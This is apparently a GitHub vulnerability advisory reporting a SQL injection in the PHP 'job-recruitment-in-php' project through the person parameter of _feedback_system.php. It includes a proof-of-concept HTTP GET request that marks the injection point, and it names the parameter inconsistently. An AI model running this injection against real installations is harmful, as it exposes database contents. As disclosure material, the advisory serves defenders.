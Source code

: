# job-recruitment-in-php has sql injection vulnerability via  $person paremeter.

## supplier 
https://code-projects.org/job-recruitment-in-php-css-javascript-and-mysql-free-download/
## Vulnerability file
$person paremeter.

## describe

There is a sql injection vulnerability in the system.  The parameters that can be controlled:  $person parameter. This function executes the jobtitle parameter into the SQL statement without any restrictions. A malicious attacker could exploit this vulnerability to obtain sensitive information in the server database.

**Code analysis**    

When the parameter value of   $person is obtained in the function, it will be concatenated into SQL statements and executed, which has a SQL injection vulnerability. 

## ![image-20250101150203869](https://github.com/user-attachments/assets/b6515ac8-3f12-46fc-bbcc-a290a4fc164c)

## POC

```
GET /_parse/_feedback_system.php?person=1* HTTP/1.1
Host: airecruitmentsystem
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:133.0) Gecko/20100101 Firefox/133.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Connection: close
Cookie: PHPSESSID=m7q8msl7hl8db479mmmo0vuav1
Upgrade-Insecure-Requests: 1
Priority: u=0, i

```

![image-20250101151348839](https://github.com/user-attachments/assets/5e732e66-808a-48dc-b088-6614c2c3fa78)



**Discover**

西安电子科技大学： 李腾，谢亚轩，刘芮彤